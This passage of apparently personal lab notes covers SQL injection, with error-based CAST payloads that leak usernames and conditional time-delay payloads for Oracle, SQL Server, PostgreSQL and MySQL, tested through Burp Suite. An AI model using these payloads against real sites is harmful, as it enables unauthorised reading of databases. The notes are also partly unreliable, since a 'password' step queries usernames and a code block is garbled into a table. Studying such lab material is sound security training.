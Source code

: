 ```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Most of the times the data is string so trying to convert it to int will cause an error.

Checking with cast:

```sql
AND CAST((SELECT 1) AS int)--
```

`ERROR: argument of AND must be type boolean, not type integer`

We need to make it into a Boolean:

```sql
AND 1=CAST((SELECT 1) AS int)--
```

There is a character limit so delete the original trackingID and the following query:

```sql
AND 1=CAST((SELECT username FROM users) AS int)--
```

To get password:

```sql
AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

### Time Delays

Set maximum concurrent requests to 1 in Burp Suite.

| Oracle                             | `dbms_pipe.receive_message(('a'),10)` |
| ---------------------------------- | ------------------------------------- |
| Microsoft                          | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL                         | `SELECT pg_sleep(10)`                 |
| MySQL                              | `SELECT SLEEP(10)`                    |
| Example:                           |                                       |
| \`\`\`sql                          |                                       |
| 'IF (1=2) WAITFOR DELAY '0:0:10'-- |                                       |
| 'IF (1=1) WAITFOR DELAY '0:0:10'-- |                                       |
| \`\`\`                             |                                       |

Testing (PostgreSQL):

```sql
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Url encode if doesn't work.
